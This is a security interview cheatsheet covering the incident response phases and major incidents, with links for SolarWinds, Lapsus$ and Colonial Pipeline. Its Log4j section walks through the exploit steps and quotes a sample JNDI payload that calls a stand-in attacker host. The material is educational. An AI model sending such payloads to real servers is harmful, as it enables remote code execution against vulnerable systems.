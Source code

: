 ```yaml
---
description: A quick reference of relevant security topics for technical interviews
---
```


# Security Interview Cheatsheet

## Incident Response

### Tools

* [https://github.com/meirwah/awesome-incident-response](https://github.com/meirwah/awesome-incident-response)

### Framework

<figure><img src="https://www.cynet.com/wp-content/uploads/2019/08/nist-incident-response-process-1.png" alt=""><figcaption><p>SANS</p></figcaption></figure>

* **Preparation**: Refers to the organizational preparation that is needed to be able to respond, including tools, processes, competencies, and readiness.
* **Detection & analysis**: Refers to the activity to detect a security incident in a production environment and to analyze all events to confirm the authenticity of the security incident.
* **Containment, eradication, recovery**: Refers to the required and appropriate actions taken to contain the security incident based on the analysis done in the previous phase. More analysis may also be necessary in this phase to fully recovery from the security incident.
* **Post-incident activity**: Refers to the post-mortem analysis performed after the recovery of a security incident. The operational actions performed during the process are reviewed to determine if any changes need to be made in the preparation or detection and analysis phases.

### Major Incidents

* Log4j
  * Exploit steps:
    1. Data from the User gets sent to the server (via any protocol).
    2. logs the data containing the malicious payload from the request `${jndi:ldap://some-attacker.com/a}`, where `some-attacker.com` is an attacker controlled server.
    3. The log4j vulnerability is triggered by this payload and the server makes a request to `some-attacker.com` via "[Java Naming and Directory Interface](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)" (JNDI).
    4. This response contains a path to a remote Java class file (ex. `http://second-stage.some-attacker.com/Exploit.class`), which is injected into the server process.
    5. This injected payload triggers a second stage, and allows an attacker to execute arbitrary code.
  * Detection:
    * Web server logs - [link](https://github.com/SigmaHQ/sigma/blob/master/rules/web/web\_cve\_2021\_44228\_log4j\_fields.yml)
* SolarWinds (Sunburst)
  * Timeline - [link ](https://krebsonsecurity.com/2021/01/solarwinds-what-hit-us-could-hit-others/)
* Lapsas$
  * Attacks - [link](https://en.wikipedia.org/wiki/Lapsus$)
* Colonial Pipeline
  * Timeline - [link](https://www.nguard.com/colonial-pipeline-timeline-of-events/)
